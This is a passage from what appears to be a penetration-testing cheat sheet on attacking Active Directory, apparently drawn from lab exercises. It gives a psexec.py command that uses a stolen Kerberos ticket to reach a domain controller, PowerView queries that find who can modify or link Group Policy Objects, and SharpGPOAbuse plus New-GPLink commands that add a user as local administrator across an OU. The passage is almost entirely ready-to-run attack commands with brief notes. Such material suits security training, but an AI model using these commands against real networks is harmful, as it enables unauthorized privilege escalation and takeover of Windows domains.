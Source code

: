 And finally gain access

```bash
KRB5CCNAME=Administrator@cifs_dc03.zencorp.local@ZENCORP.LOCAL.ccache psexec.py dc03.zencorp.local -k -no-pass
```

### <mark style="color:yellow;">GPO Attacks</mark>

Several rights can be abused to escalate privileges using GPO.&#x20;

1. Modify a GPO: Can be used to alter the GPO like executing commands or actions to computer where GPO is applied.
2. Link to a GPO: Link GPO to a site, domain or OU, needs right to modify as well.
3. Create a GPO: Combined with LInk to GPO we can compromise any computer.

#### Enumeration from Windows

```powershell
# Get-DomainOU
Import-Module .\PowerView.ps1
Get-DomainOU -Properties name,gplink

# Get name of GPO usin Guid
Get-GPO -Guid 8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756

# User GPO Enumeration
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration

# More User GPO Enumeration
Get-DomainSite -Properties distinguishedname | foreach { Get-DomainObjectAcl -SearchBase $_.distinguishedname -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List }

# Which user can link GPOs to Servers OU
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List
```

#### GPO Abuse from Windows

```powershell
# Search users with rights to modify GPO
Get-GPOEnumeration -ModifyGPOs

# Query computer validating OU
Get-DomainComputer web01 -Properties distinguishedname
```

Add to local admin group and link GPO

```powershell
# Add to local admin group
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount gabriel --GPOName TestGPO

# Link GPO
New-GPLink -Name TestGPO -Target "OU=Servers,DC=inlanefreight,DC=local"
```

